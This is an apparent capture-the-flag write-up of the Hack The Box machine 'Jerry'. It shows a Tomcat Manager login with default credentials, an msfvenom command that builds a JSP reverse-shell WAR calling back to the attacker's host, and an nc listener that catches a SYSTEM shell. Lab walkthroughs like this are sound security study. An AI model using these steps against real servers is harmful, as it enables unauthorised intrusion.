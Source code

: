 ```yaml
---
title: "Jerry HTB [Easy]"
date: 2020-01-07T11:49:16-05:00
draft: false
description: "Jerry is an Easy machine on HackTheBox.eu | Tomcat Manager Vulnerability"

---
```


# Description  
Jerry is an Easy machine on HackTheBox.eu

**Host Information**  
Hostname: JERRY   
IP Address: 10.10.10.95  

**Service Enumeration**   
NMAP RESULTS:
```
PORT     STATE SERVICE
8080/tcp open  http-proxy
```

## Attack Path  

Navigating to http://10.10.10.95:8080/ we find a default Tomcat installation. The manager allows us to upload arbitrary war files, so if we can access it, we can upload a shell to the system.  

Tomcat installations often leverage default credentials for setup, especially if the installation is in its default format as we see when navigating to the homepage. I guessed tomcat:s3cret and that worked (a common default credential for old tomcat), but this can also be derived manually by goign to /manager and clicking cancel, the default password is listed in the example. 

We can create our reverse shell to upload to the manager with

```bash
$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=[YOUR IP] LPORT=4444 -f war -o shell.war
```

On your local instance you can catch the shell with:  
```bash
$ nc -lvp 4444
```

Execute the shell by clicking the link created for you when you upload the shell to the tomcat manager. You catch the shell and with a simple "whoami" we find that we are authority / system. This is root on a Windows box so we can now retrieve the root hash. 


